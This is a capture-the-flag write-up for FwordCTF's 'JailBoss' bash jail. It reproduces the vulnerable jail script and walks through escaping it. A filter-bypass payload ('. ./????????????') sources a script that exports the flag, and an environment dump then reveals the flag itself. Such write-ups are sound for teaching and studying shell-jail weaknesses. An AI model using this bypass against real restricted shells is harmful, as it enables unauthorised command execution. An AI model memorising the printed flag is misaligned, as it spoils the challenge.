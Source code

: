 # JailBoss
You are provided with an SSH account to server `ssh -p 2222 ctf@jailboss.fword.wtf`, and 2 files.

## `taskFword.sh`
```sh
#!/bin/bash
export FLAG="FwordCTF{REDACTED}"
echo "A useless script for a useless SysAdmin"
```

## `jail.sh`
```sh
#!/bin/bash
figlet "BASH JAIL x Fword"
echo "Welcome! Kudos to Anis_Boss Senpai"
function a(){
/usr/bin/env
}
export -f a
function calculSlash(){
	echo $1|grep -o "/"|wc -l
}
function calculPoint(){
	echo $1|grep -o "."|wc -l
}
function calculA(){
        echo $1|grep -o "a"|wc -l
}

while true;do
read -p ">> " input ;
if echo -n "$input"| grep -v -E "^(\.|\/| |\?|a)*$" ;then
        echo "No No not that easy "
else
	pts=$(calculPoint $input)
	slash=$(calculSlash $input)
	nbA=$(calculA $input)
	if [[ $pts -gt 2 || $slash -gt 1 || $nbA -gt 1 ]];then
		echo "That's Too much"
	else
		eval "$input"
	fi
fi
done
```

When you connect to remote server you are greeted with

```
 _____                       _ 
|  ___|_      _____  _ __ __| |
| |_  \ \ /\ / / _ \| '__/ _` |
|  _|  \ V  V / (_) | | | (_| |
|_|     \_/\_/ \___/|_|  \__,_|
                               
ctf@jailboss.fword.wtf's password: 

DISCLAIMER: Please don't abuse the server or you will get banned !

Author: Kahla, Contact me for any problems; GL & HF

 ____    _    ____  _   _       _   _    ___ _            
| __ )  / \  / ___|| | | |     | | / \  |_ _| |     __  __
|  _ \ / _ \ \___ \| |_| |  _  | |/ _ \  | || |     \ \/ /
| |_) / ___ \ ___) |  _  | | |_| / ___ \ | || |___   >  < 
|____/_/   \_\____/|_| |_|  \___/_/   \_\___|_____| /_/\_\
                                                          
 _____                       _ 
|  ___|_      _____  _ __ __| |
| |_  \ \ /\ / / _ \| '__/ _` |
|  _|  \ V  V / (_) | | | (_| |
|_|     \_/\_/ \___/|_|  \__,_|
                               
Welcome! Kudos to Anis_Boss Senpai
>> 
```

And you can input commands.
We can assume that `jail.sh` is ran after connecting to server and that `taskFword.sh` is probably in the same directory.

## Method
1. Find a way to execute `taskFword.sh` to load flag to ENV
2. Call a() to execute /usr/bin/env (where already loaded flag resides)

## The script
We can see that the script asks for input.
```
read -p ">> " input ;
```

Then script checks if out input consists only of certain characters `.` `/` `:space:` `?` `a`
Those are only allowed characters.
```
if echo -n "$input"| grep -v -E "^(\.|\/| |\?|a)*$" ;then
```

Then we use defined functions
```
function calculSlash(){
	echo $1|grep -o "/"|wc -l
}
function calculPoint(){
	echo $1|grep -o "."|wc -l
}
function calculA(){
    echo $1|grep -o "a"|wc -l
}
```

to find out number of appereances of characters `/` `.` `a`
Notice how the script is not checking counts of `:space:` or `?`
```
pts=$(calculPoint $input)
slash=$(calculSlash $input)
nbA=$(calculA $input)
```

Then we check number of appereances.
We can you maximum of 2x`.`, 1x`/` and 1x`a`
```
if [[ $pts -gt 2 || $slash -gt 1 || $nbA -gt 1 ]];then
```

If the condition is satisfied, script calls `eval` with our input.
This is a dangerous builtin command that shouldn't be used with user input.
We can potentionaly run "any" command we want with this
```
eval "$input"
```

## Exploit
How can we execute a command only with these characters `.` `/` `:space:` `?` `a`
We can't do `./taskFword.sh` because there are banned characters.
What we can do is use regex symbol `?` which is a substitute for a single character.
If you don't understand regex read about it. (You have probably used commands like `rm *`, `*` is a regex symbol meaning 'everything').

So we can try:
`./????????????`
which can resolve to
`./taskFword.sh`

Here is a catch.
When scripts evaluates function
```
function calculPoint(){
	echo $1|grep -o "."|wc -l
}
```
with our input `./????????????` it checks for occurence of `.` which in regex means 'any character'. So the function 'returns' count `14` since we used 14 characters as our input, which stops us from evaluating our input since we are allowed to use 2 **dots** (`.`).
How can we solve this?

The solution is in
```
pts=$(calculPoint $input)
```
and respective
```
function calculPoint(){
	echo $1|grep -o "."|wc -l
}
```

The function only evaluates the first argument `$1` from our input (wchich was our entire input string so far). But we can use `:space:` to divide our input into 2 words. First word can be `.` which evaluates to count `1` since we only used 1 character and second word can be our payload `./????????????`.

Together
`. ./????????????`

This input successfuly satisfies all conditions. And bash interpreter evaluates first `.` as **dot command** (command that evaluates commands in the current execution context) and then executes the scripts that loads the FLAG into our ENVIROMENT.

## In action
```
>> . ./????????????
A useless script for a useless SysAdmin
```

Then we can simply invoke function a() to print our ENVIROMENT
```
>> a
SHELL=/opt/jail.sh
PWD=/home/ctf
LOGNAME=ctf
MOTD_SHOWN=pam
HOME=/home/ctf/
LANG=en_US.UTF-8
FLAG=FwordCTF{BasH_1S_R3aLLy_4w3s0m3_K4hLaFTW}
TERM=xterm-256color
USER=ctf
SHLVL=1
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
SSH_TTY=/dev/pts/2
BASH_FUNC_a%%=() {  /usr/bin/env
}
_=/usr/bin/env
```

## The Flag
**FwordCTF{BasH_1S_R3aLLy_4w3s0m3_K4hLaFTW}**
